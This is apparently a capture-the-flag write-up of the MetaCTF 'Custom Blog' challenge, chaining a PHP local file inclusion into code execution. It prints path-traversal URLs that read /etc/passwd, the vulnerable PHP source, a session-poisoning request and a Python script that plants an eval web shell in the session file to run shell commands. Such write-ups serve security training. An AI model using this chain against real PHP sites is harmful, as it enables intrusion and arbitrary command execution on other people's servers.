 # Custom Blog

We got greeted with this challenge server http://host.cg21.metaproblems.com:4130/
which shows multiple blog entries which seems to be loaded as a file over include or require.

To test this we tried to include a familiar file from the host with path traversal.

```
http://host.cg21.metaproblems.com:4130/post.php?post=../etc/passwd
http://host.cg21.metaproblems.com:4130/post.php?post=../../etc/passwd
http://host.cg21.metaproblems.com:4130/post.php?post=../../../etc/passwd
http://host.cg21.metaproblems.com:4130/post.php?post=../../../../etc/passwd
```
And we found the content of the /etc/passwd file

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flag:x:999:999::/home/flag:/usr/sbin/nologin
```

That was quite easy, so we assumed that we can easily execute php code with the common practices.

So we tried:
```
http://host.cg21.metaproblems.com:4130/post.php?post=../../../../proc/self/environ
```

Which did not return anything, so we tried log poisoning but where unable to find or read anny meaningful log which we could influence.
We also knew that we could not abuse the wrapper due the prepending of the `posts/` in the post syntax. (Known from the source)

```php
<?php
  session_start();
  if (isset($_GET['post']) && file_exists($post = 'posts/' . $_GET['post'])) {
    $ok = true;
  } else {
    $ok = false;
    http_response_code(404);
  }
?>
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title><?= htmlentities($_GET['post']) ?></title>
    <link rel="stylesheet" href="/style.css">
    <?php include 'theme.php'; ?>
  </head>
  <body>
    <?php
      if ($ok) {
        echo '<h1>' . htmlentities($_GET['post']) . '</h1><hr><div class="post">';
        include $post;
        echo '</div>';
      } else {
        echo '<h1>post not found :(</h1><hr>';
      }
    ?>
    <a href="/">home</a>
  </body>
</html>
```

So we were pretty stuck until we noticed that there is a session available in which we can add data.
So we injected some php code in the `theme` session variable. That could be done over:
```
http://host.cg21.metaproblems.com:4130/set.php?theme=<?php phpinfo();?>
```

This session variable is saved in the user session, per default the php session handler is file based,
so we tried to locate the directory where they are located.
Its achievable because we know the schema which the file is created: `/xxx/xxx/sess_{SESSIONID}` the session id can be taken from the php session used from the client which fired the above request.
and the xxx directories need to be found.
We found our directory under /tmp/ so we went further to create a small exploit script which could run arbitary code:

```py
import base64

import requests


def stage_one():
    se = requests.session()
    se.get(
        "http://host.cg21.metaproblems.com:4130/set.php?theme=<?php set_time_limit(0);ini_set('max_execution_time', 0);error_reporting(E_ALL); print($_POST['code']);print(eval($_POST['code']));exit(); ?>")
    return se


def stage_two(s, cmd):
    sessionid = s.cookies.get("PHPSESSID")
    res = s.post(
        "http://host.cg21.metaproblems.com:4130/post.php?post=../../../../tmp/sess_" + sessionid,
        data={"code": "print(shell_exec(base64_decode('" + str(base64.b64encode(cmd.encode("utf-8")), "utf-8") + "')));"})
    print(res.content.decode())
    pass


s = stage_one()
stage_two(s, "ls -all")
```

Now where we can execute commands we can run any commands. We found setuid binary called /flag/flagreader by uploading linpeas to the server.

So we could just run

```py
stage_two(s, "/flag/flagreader")
```

And got the flag
```
MetaCTF{wh4t??lfi_1s_ev0lv1ng??}
```